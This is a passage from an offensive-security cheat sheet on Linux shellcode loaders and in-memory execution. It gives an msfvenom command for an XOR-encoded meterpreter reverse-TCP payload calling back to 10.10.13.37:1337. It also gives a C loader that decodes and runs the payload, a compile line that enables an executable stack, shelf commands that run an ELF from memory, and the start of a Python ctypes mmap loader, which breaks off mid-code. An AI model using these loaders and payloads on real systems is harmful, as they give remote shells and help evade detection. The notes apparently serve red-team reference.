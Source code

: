 ```c
#include <unistd.h>

// msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.13.37 LPORT=1337 -f c -o met.c --encrypt xor --encrypt-key a
unsigned char buf[] = 
"\x31\x33\...\x33\x37";

int main (int argc, char **argv)
{
    int bufsize = (int)sizeof(buf);
    for (int i = 0; i < bufsize-1; i++) { buf[i] = buf[i] ^ 'a'; }
    int (*ret)() = (int(*)())buf;
    ret();
}
```
{% endcode %}

Compile allowing execution on stack:

```
$ gcc -o loader loader.c -z execstack
```
{% endtab %}
{% endtabs %}




## Linux In-Memory Code Execution

- [https://blog.sektor7.net/#!res/2018/pure-in-memory-linux.md](https://blog.sektor7.net/#!res/2018/pure-in-memory-linux.md)
- [https://www.akamai.com/blog/security-research/the-definitive-guide-to-linux-process-injection](https://www.akamai.com/blog/security-research/the-definitive-guide-to-linux-process-injection)



### Memory Manipulation with Python

- [https://github.com/jonatanSh/shelf](https://github.com/jonatanSh/shelf)
- [https://github.com/anvilsecure/ulexecve](https://github.com/anvilsecure/ulexecve)

Convert an ELF to PIC, inject it and run from memory:

```
$ gcc hello.c -fno-stack-protector -fPIE -fpic -static --entry=main -o hello
$ python3 -m shelf --input hello
$ python3 run_sc.py
```

{% code title="run_sc.py" %}
```python
# https://blog.sektor7.net/#!res/2018/pure-in-memory-linux.md#Python

from ctypes import (CDLL, c_void_p, c_size_t, c_int, c_long, memmove, CFUNCTYPE, cast, pythonapi)
from ctypes.util import find_library

PROT_READ = 0x01
PROT_WRITE = 0x02
PROT_EXEC = 0x04
MAP_PRIVATE = 0x02
MAP_ANONYMOUS = 0x20

with open('hellointel_x64.out.shell', 'rb') as f:
	sc = f.read()

libc = CDLL(find_library('c'))

```